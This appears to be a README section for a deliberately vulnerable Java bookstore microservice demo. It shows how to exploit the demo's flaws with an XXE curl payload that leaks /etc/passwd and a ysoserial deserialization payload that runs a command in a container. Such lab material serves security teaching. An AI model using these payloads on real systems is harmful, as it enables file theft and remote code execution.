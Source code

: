 ## Exploiting the Vulnerabilities

### XML External Entity (XXE)
The XXE vulnerability can be exploited directly in the bookstore-frontend by
adding a new malicious book:
```
$ curl -H "Content-Type: application/xml" http://localhost:8000/add -d '<?xml version="1.0"?><!DOCTYPE book [<!ENTITY xxe SYSTEM "/etc/passwd">]><book><title>foo &xxe;</title><pages>21</pages></book>'
```

Now the contents of `/etc/passwd` has leaked into the the new book title, which
you can see by checking the book titles:
```
$ curl http://localhost:8000/list
```

### Deserialization
The `bookstore-data-manager` offers an "update a book" service that is not
supposed to be used from the outside, which is why it's not available through
the `bookstore-frontend`.

This service is available at `/update`, and it accepts a binary, serialized
Java object with `Book` type.

To exploit this, we must first make an exploit that creates a file in `/tmp` as
a proof-of-concept:
```
$ git clone https://github.com/frohoff/ysoserial
$ cd ysoserial
$ docker build -t ysoserial .
$ docker run --rm ysoserial CommonsCollections5 '/usr/bin/touch /tmp/hacked' > commonscollections5.ser
```

Now you can send the exploit generated in the `commonscollections5.ser` file:
```
$ curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@commonscollections5.ser" http://localhost:8001/update
```

To prove that we created this `/tmp/hacked` file, we must shell into the
running container. 

If you started with docker-compose, the container ID is something like
java-microservice-sample-apps_bookstore-datamanager_1.

If you ran the containers manually, you can start with the ID:
```
$ docker ps
CONTAINER ID        IMAGE                    COMMAND                 CREATED              STATUS              PORTS                              NAMES
*[RUNNING_CONTAINER_ID]*        bookstore-data-manager   "mvn spring-boot:run"
```
